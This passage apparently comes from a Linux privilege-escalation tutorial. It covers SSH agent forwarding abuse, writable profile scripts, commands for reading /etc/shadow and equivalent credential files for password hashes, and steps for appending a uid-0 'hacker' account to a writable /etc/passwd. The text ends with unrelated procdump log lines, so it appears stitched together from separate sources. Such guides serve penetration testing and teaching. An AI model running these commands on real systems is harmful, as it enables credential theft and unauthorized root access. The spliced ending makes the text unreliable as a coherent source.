 Notice that if `Host` is `*` every time the user jumps to a different machine, that host will be able to access the keys (which is a security issue).

The file `/etc/ssh_config` can override this options and allow or denied this configuration.
The file `/etc/sshd_config` can allow or denied ssh-agent forwarding with the keyword `AllowAgentForwarding` (default is allow).

If you find that Forward Agent is configured in an environment read the following page as you may be able to abuse it to escalate privileges:

## Interesting Files

### Profiles files

The file `/etc/profile` and the files under `/etc/profile.d/` are scripts that are executed when a user runs a new shell. Therefore, if you can write or modify any of them you can escalate privileges.

```
ls -l /etc/profile /etc/profile.d/
```

If any weird profile script is found you should check it for sensitive details.

### Passwd/Shadow Files

Depending on the OS the `/etc/passwd` and `/etc/shadow` files may be using a different name or there may be a backup. Therefore it's recommended find all of them and check if you can read them to see if there are hashes inside the files:

```
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```

In some occasions you can find password hashes inside the `/etc/passwd` (or equivalent) file

```
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```

### Writable /etc/passwd

First, generate a password with one of the following commands.

```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714
